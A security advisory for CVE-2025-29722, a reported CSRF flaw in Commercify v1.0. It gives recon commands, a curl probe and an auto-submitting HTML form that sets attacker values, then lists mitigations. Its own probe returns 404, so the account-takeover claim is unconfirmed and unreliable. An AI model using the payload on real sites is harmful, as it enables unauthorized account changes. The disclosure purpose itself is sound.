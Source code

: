 # 🛡️ CVE-2025-29722 – Cross Site Request Forgery (CSRF) in Commercify v1.0  
**Discovered by: David P.S Abraham (aka Davycipher)**

---

##  CVE ID

**CVE-2025-29722** has been assigned to this vulnerability by [MITRE Corporation](https://cve.mitre.org/).

---

##  Summary

A **CSRF vulnerability** was identified in **Commercify v1.0**, an open-source e-commerce platform developed by [@yassmittal](https://github.com/yassmittal). The application lacks proper CSRF protection mechanisms on critical endpoints such as `/update_settings`, allowing attackers to craft malicious requests that modify user data when executed from another domain.

---

##  Affected Product

- **Product Name:** Commercify
- **Version:** 1.0
- **Repository:** [https://github.com/yassmittal/Commercify](https://github.com/yassmittal/Commercify)

---

##  Vulnerability Type

- CWE-352: Cross-Site Request Forgery (CSRF)

---

##  Exploitation Walkthrough

### Recon Phase

 `nmap` scan revealed that the service was accessible via port `5173`, indicating a possible development server.

```bash
nmap -p 5173 localhost
```

Next, I scanned the app using `nikto`, revealing:

- Missing `X-Frame-Options` header
- Permissive CORS policy (`Access-Control-Allow-Origin: *`)
- Lack of CSRF protection headers

###  Endpoint Brute Forcing

While exploring the application, I suspected a possible `update_settings` endpoint based on the user dashboard features. I tested it with:

```bash
curl -X POST "http://localhost:5173/update_settings" \
-d "username=attacker&email=attacker@example.com"
```

Though a `404 Not Found` was returned, this behavior can be environment-dependent. On valid deployments, this could lead to full account manipulation.

---

##  Proof of Concept (PoC)

HTML-based attack to exploit the CSRF flaw:

```html
<form action="http://localhost:5173/update_settings" method="POST">
  <input type="hidden" name="username" value="attacker">
  <input type="hidden" name="email" value="attacker@example.com">
</form>
<script>
  document.forms[0].submit();
</script>
```


##  Impact

- Unauthorized changes to user account data
- Privilege escalation if settings include role or email manipulation
- Account takeover scenarios

---

##  Root Cause

- Lack of CSRF tokens
- No `SameSite` cookie attribute
- Permissive CORS (`*`)
- No referer or origin validation

---

##  Mitigation & Recommendations

- Add CSRF tokens for all state-changing endpoints
- Set `SameSite=Strict` or `Lax` on cookies
- Define strict CORS policies
- Implement origin/referer validation

---

##  Discoverer

**David P.S. Abraham**  
Alias: **Davycipher**  
- [GitHub](https://github.com/cypherdavy)  
- [LinkedIn](https://linkedin.com/in/davy-cypher)  
- [Website](https://davycipher.online)

---
